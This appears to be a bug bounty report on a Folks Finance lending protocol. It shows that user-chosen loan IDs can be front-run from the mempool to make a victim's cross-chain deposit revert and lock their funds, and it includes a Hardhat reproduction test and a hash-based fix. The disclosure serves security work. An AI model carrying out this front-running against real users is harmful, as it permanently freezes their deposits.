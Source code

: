 
# loanIds are easy to reproduce and front-running enable malicious parties to lock user funds

Submitted on Wed Jul 31 2024 14:44:48 GMT-0400 (Atlantic Standard Time) by @jovi for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33869

Report type: Smart Contract

Report severity: Medium

Target: https://immunefi.com/

Impacts:
- Permanent freezing of funds

## Description
## Brief/Intro
When creating a loan and a deposit at a single transaction, users can arbitrarily select the loanId as an argument for the createLoanAndDeposit function at the SpokeToken contract:
```solidity
function createLoanAndDeposit(
        Messages.MessageParams memory params,
        bytes32 accountId,
        bytes32 loanId,
        uint256 amount,
        uint16 loanTypeId,
        bytes32 loanName
    ) external payable nonReentrant {
```

This loanId can be observed by mempool watchers and front-run in order to induce transaction reversion when the bridge adapters attempt to receive the message to create the loan at the target chain. 
## Vulnerability Details
When creating a loan and a deposit, a user can pick any loan id as he/she desires. However, any other user can call the same function with the same loanId but with a different amount of assets.


The issue with that lies at the LoanManager's createUserLoan function at the Hub chain, as it reverts if the loanId has already been created:
```solidity
function createUserLoan(
...
if (isUserLoanActive(loanId)) revert UserLoanAlreadyCreated(loanId);
...
}
```

So, if 1 user attempts a createLoanAndDeposit function call and sends some assets he/she is always at risk at being front-run and locking the assets without clear pathways for recovery.

## Impact Details
Users that create new loans with deposits may end up having their funds stuck if they are front-run.

In case the bridge logic is Chainlink's CCIP, the funds will be irrecoverable, as both the TokenAdapter and DataAdapter are non-upgradeable and Chainlink's manual execution (as a manner to attempt to receive the message again) will keep reverting.
Since the adapters also don't have `retryFailedMessage` implementations, the funds are stuck.

As the TokenAdapter and DataAdapter contracts do not gracefully handle errors by calling the actions inside ccipReceive in try/catch blocks, there will be no other mechanism to attempt running the message again at the Hub chain.

The SpokeToken contracts don't have built-in mechanisms to return the funds to users in case the message fails at the target chain. Therefore users may lose their funds with no chance of recovery.
## References
[Transfer Tokens with Data - Defensive Example | Chainlink Documentation](https://docs.chain.link/ccip/tutorials/programmable-token-transfers-defensive#receiving-and-processing-messages)

[documentation/public/samples/CCIP/usdc/Receiver.sol at 11879087fa2ed3a1dda5461886dd8257b6180325 · smartcontractkit/documentation (github.com)](https://github.com/smartcontractkit/documentation/blob/11879087fa2ed3a1dda5461886dd8257b6180325/public/samples/CCIP/usdc/Receiver.sol#L123C1-L124C80)


## Mitigation
The usage of hash-based loan IDs may fix the issue, as the one-way cryptographic property may make it impossible to reproduce loan IDs. Consider the following solution:

``` solidity
function createLoanAndDeposit(
    Messages.MessageParams memory params,
    bytes32 accountId,
    bytes32 loanSalt,
    uint256 amount,
    uint16 loanTypeId,
    bytes32 loanName
) external payable nonReentrant {
    bytes32 _loanId = keccak256(
        abi.encodePacked(loanSalt, accountId, amount, loanTypeId, loanName)
    );
    _doOperation(
        params,
        Messages.Action.CreateLoanAndDeposit,
        accountId,
        amount,
        abi.encodePacked(_loanId, amount, loanTypeId, loanName)
    );
}
```


        
## Proof of concept
## Proof of concept
Hub chain: Avax
Spoke chain: ETH

Alice is currently in ETH and wants to create a loan and deposit 100e18 worth of tokenA at Avax. 

She calls the SpokeToken createLoanAndDeposit function with loanId set to 0x01.

Bob observes the mempool and front-runs her call by creating a loan and deposit with 1e18 worth of tokenA and loanId = 0x01. 

Since Bob has front-run Alice, CCIP router picks up Bob's message first and creates the loan at the Hub chain for him.

The CCIP router then attempts to create a loan for Alice, but since a loan with equal ID already exists, it reverts and the message is lost.

The following test can also be placed at the Hub.test.ts file, but it will not revert at the final condition as the MockLoanManager contract doesn't implement any logic but to emit the CreateUserLoan event:
```typescript
it("Should not be able to create loan with same loan Id", async () => {
        const { user, poolId, bridgeRouter, loanManager, spokeChainId, spokeAddress, hubAddress } =
          await loadFixture(deployHubFixture);

        // call create user loan and deposit
        const messageId: string = getRandomBytes(BYTES32_LENGTH);
        const accountId: string = getAccountIdBytes("ACCOUNT_ID");
        const loanId: string = getRandomBytes(BYTES32_LENGTH);
        const amount: bigint = BigInt(1e18);
        const loanTypeId: number = 0;
        const loanName: string = getRandomBytes(BYTES32_LENGTH);
        const payload = buildMessagePayload(
          Action.CreateLoanAndDeposit,
          accountId,
          user.address,
          ethers.concat([
            loanId,
            convertNumberToBytes(poolId, UINT8_LENGTH),
            convertNumberToBytes(amount, UINT256_LENGTH),
            convertNumberToBytes(loanTypeId, UINT16_LENGTH),
            loanName,
          ])
        );
        const message: MessageReceived = {
          messageId,
          sourceChainId: BigInt(spokeChainId),
          sourceAddress: convertEVMAddressToGenericAddress(spokeAddress),
          handler: convertEVMAddressToGenericAddress(hubAddress),
          payload,
          returnAdapterId: BigInt(0),
          returnGasLimit: BigInt(0),
        };
        const createUserLoanAndDeposit = await bridgeRouter.receiveMessage(message);

        // verify create user loan and deposit are called
        await expect(createUserLoanAndDeposit)
          .to.emit(loanManager, "CreateUserLoan")
          .withArgs(loanId, accountId, loanTypeId, loanName);
        await expect(createUserLoanAndDeposit)
          .to.emit(loanManager, "Deposit")
          .withArgs(loanId, accountId, poolId, amount);
        await expect(createUserLoanAndDeposit).to.emit(bridgeRouter, "MessageSucceeded").withArgs(message.messageId);

        const messageId2: string = getRandomBytes(BYTES32_LENGTH);
        const accountId2 = getAccountIdBytes("ACCOUNT_ID2");
        const payload2 = buildMessagePayload(
          Action.CreateLoanAndDeposit,
          accountId2,
          user.address,
          ethers.concat([
            loanId,
            convertNumberToBytes(poolId, UINT8_LENGTH),
            convertNumberToBytes(amount, UINT256_LENGTH),
            convertNumberToBytes(loanTypeId, UINT16_LENGTH),
            loanName,
          ])
        );
        const message2: MessageReceived = {
          messageId: messageId2,
          sourceChainId: BigInt(spokeChainId),
          sourceAddress: convertEVMAddressToGenericAddress(spokeAddress),
          handler: convertEVMAddressToGenericAddress(hubAddress),
          payload: payload2,
          returnAdapterId: BigInt(0),
          returnGasLimit: BigInt(0),
        };
        const createUserLoanAndDeposit2 = (await bridgeRouter.receiveMessage(message2));
        await expect(createUserLoanAndDeposit2)
          .to.revertedWith("UserLoanAlreadyCreated");
      });
```

It can be run with the following command from the main folder:
```shell
npx hardhat test --grep "Should not be able to create loan with same loan Id"
```